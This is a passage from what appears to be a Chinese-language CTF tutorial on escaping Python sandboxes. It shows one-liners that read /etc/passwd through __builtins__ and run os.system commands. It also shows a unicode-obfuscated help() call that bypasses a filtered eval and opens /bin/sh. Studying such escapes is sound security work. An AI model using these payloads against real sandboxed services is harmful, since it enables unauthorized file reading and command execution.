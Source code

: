 #### `__builtins__` 利用
`__builtins__`： 是一个 builtins 模块的一个引用，其中包含 Python 的内置名称。这个模块自动在所有模块的全局命名空间中导入。当然我们也可以使用 `import builtins` 来导入

它包含许多基本函数（如 print、len 等）和基本类（如 object、int、list 等）。这就是可以在 Python 脚本中直接使用 print、len 等函数，而无需导入任何模块的原因。

我们可以使用 dir() 查看当前模块的属性列表. 其中就可以看到 `__builtins__`

内置的函数中 open 与文件操作相关，（python2 中为 file 函数）
```py
__builtins__.open('/etc/passwd').read()
__import__("builtins").open('/etc/passwd').read()
```

`__builtins__`除了读取文件之外还可以通过调用其 `__import__` 属性来引入别的模块执行命令。
```py
>>> __builtins__.__import__
<built-in function __import__>
>>> __builtins__.__import__('os').system('ls')
```
由于每个导入的模块都会留存一个 `__builtins__` 属性，因此我们可以在任意的模块中通过`__builtins__`来引入模块或者执行文件操作。需要注意的是，`__builtins__`在模块级别和全局级别的表现有所不同。

在全局级别（也就是你在Python交互式解释器中直接查看`__builtins__`时），`__builtins__`实际上是一个模块`<module '__builtin__' (built-in)>`。

在模块级别（也就是你在一个Python脚本中查看__builtins__），`__builtins__`是一个字典，这个字典包含了`__builtin__`模块中所有的函数和类。


因此，当通过其他模块的 `__builtins__`时，如`__import__('types').__builtins__`时，实际上看到的是一个字典，包含了所有的内建函数和类。此时调用的方式有所变化。
```py
>>> __import__('types').__builtins__['__import__']
<built-in function __import__>
```

#### help 函数
help 函数可以打开帮助文档. 索引到 os 模块之后可以打开 sh

以下面的环境为例

```py
eval((__import__("re").sub(r'[a-z0-9]','',input("code > ").lower()))[:130])
```
当我们输入 help 时，注意要进行 unicode 编码，help 函数会打开帮助
```py
𝘩𝘦𝘭𝘱()
```
然后输入 os,此时会进入 os 的帮助文档。
```py
help> os
```
然后在输入 `!sh` 就可以拿到 /bin/sh, 输入 `!bash` 则可以拿到 /bin/bash
```py
help> os
$ ls
a-z0-9.py  exp2.py  exp.py  flag.txt
$ 
```
